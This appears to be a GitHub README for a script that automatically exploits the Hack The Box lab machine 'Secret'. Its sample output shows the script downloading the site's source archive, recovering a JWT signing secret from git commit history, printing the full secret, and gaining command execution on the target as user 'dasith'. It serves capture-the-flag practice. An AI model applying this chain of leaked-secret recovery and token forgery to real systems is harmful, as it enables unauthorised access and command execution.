 # Usage
Run the script `run.sh` to build and run a docker container to get a point of entry of the HTB machine "Secret".
```bash
$ ./run.sh <IP>
[*] Add target hostname into /etc/hosts
[*] Download the git repository from http://secret.htb/download/files.zip
[*] unzip the downlaod file "files.zip"
[*] Get the JWT token secret from the git commit history
[*] JWT token secret: gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
secret.htb> id
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
secret.htb>
```
